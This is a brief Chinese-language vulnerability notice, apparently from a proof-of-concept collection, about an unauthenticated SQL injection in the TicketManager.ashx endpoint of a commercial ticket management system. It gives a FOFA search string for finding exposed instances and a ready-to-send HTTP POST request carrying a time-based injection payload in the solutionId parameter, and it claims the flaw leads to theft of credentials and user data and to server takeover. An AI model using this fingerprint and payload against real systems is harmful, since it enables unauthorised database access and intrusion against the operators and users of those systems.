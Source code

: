 ## 中成科信票务管理系统TicketManager.ashx存在SQL注入漏洞

中成科信票务管理系统 TicketManager.ashx 接口处存在SQL注入漏洞复现，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa

```yaml
body="技术支持：北京中成科信科技发展有限公司"
```

## poc

```java
POST /SystemManager/Api/TicketManager.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Connection: close
 
Method=GetReServeOrder&solutionId=1' WAITFOR DELAY '0:0:5'--
```

